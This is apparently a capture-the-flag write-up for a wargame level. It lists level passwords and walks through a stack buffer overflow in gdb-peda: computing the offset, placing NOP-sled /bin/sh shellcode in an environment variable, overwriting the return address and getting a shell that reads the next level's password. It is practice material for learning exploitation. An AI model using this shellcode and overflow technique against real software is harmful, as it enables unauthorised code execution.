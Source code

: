 # Level01 -

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level01 | `uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL` |
| level02 | ``                                         |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

See our assembly interpretation in [source file](../source.c)

```shell
gdb-peda$ b*main+169
gdp-peda$ run < <(python -c 'print "dat_wil\n" + "A" * 0x48')

gdb-peda$ x/24x $esp+0x1c
0xffffd5ec:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5fc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd60c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd61c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd62c:     0x41414141      0x41414141      0x0000000a      0x00000000
0xffffd63c:   [ 0xf7e45513 ]    0x00000001      0xffffd6d4      0xffffd6dc

p 0x48 + 8
$3 = 0x50 # => offset

export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

./getenv32 SHELLCODE ~/level01
  0xffffd755

python -c 'print "dat_wil\n" + "A" * 0x50 + "\x55\xd7\xff\xff"' > exploit01

cat /tmp/exploit01 - | ~/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

$ whoami
  level02
$ cat /home/users/level02/.pass
  PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncmp](https://linux.die.net/man/3/strncmp)
